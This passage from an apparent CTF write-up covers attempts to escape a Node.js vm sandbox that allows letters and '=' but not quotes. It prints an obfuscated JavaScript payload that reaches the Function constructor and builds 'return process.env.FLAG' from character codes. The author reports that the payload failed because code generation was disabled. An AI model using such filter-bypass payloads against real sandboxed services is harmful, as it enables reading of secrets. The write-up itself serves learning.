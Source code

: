 Letters and `=` were in the allowlist, but quotes weren't, so I was able to store strings in variables for my convenience and readability. I eventually came up with


```js
(Func = [][flat=(f=(fals=(0==1)+[])[0]) + (l=fals[2]) + (a=fals[1]) +(t=(tru=(0==0)+[])[0])][constructor = (c=(native_code=[][flat]+[])[26]) + (o=native_code[27]) + (n=(undef=[][0]+[])[1]) + (s=fals[3]) + t + (r=tru[1]) + (u=undef[0]) + c + t + o + r][constructor])((fromCharCode = (Strin = ([]+[])[constructor])[f + r + o + (m = (0[constructor]+[])[11]) + (C=escape(([]+[])[(i = undef[5])+t+a+l+i+c+s]())[2]) + (h = 17[toString = t+o+(Stri=Strin[n+a+(m = (0[constructor]+[])[11])+(e = undef[3])])](36)) + a + r + C + o + (d = undef[2]) + e])(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71))()
```

This is essentially equivalent to

```js
;[].flat.constructor.constructor('return process.env.FLAG')()
```

Unfortunately, despite using the `Function` instance from the parent environment, the VM still prevented me from using its constructor to evaluate the string as JS.

> EvalError: Code generation from strings disallowed for this context

Annoying!

I tried looking up articles ("node vm codeGeneration false ctf," "codeGeneration false node vm") who knew how to escape out of a VM with `codeGeneration` set to false, but no one seemed to really mention that option. Other CTFs that did use a Node VM didn't use the option. I guess other CTFs are easier and just leave code generation on.

So then, I tried running the VM code locally in Node.


```js
$ node
Welcome to Node.js v16.4.0.
Type ".help" for more information.
> vm = require('vm')
{
  Script: [class Script extends ContextifyScript],
  createContext: [Function: createContext],
  createScript: [Function: createScript],
  runInContext: [Function: runInContext],
  runInNewContext: [Function: runInNewContext],
  runInThisContext: [Function: runInThisContext],
  isContext: [Function: isContext],
  compileFunction: [Function: compileFunction],
  measureMemory: [Function: measureMemory]
}
> context = vm.createContext(
...     // we make sure to pass in the NOTHING as the context (no library functions or process.env.FLAG)
...     {},
...     // and we make sure to disallow code generation of any kind
...     { codeGeneration: { strings: false, wasm: false } }
... )
{}
> ev = code => vm.runInContext(code, context, { timeout: 3000 })
[Function: ev]
```
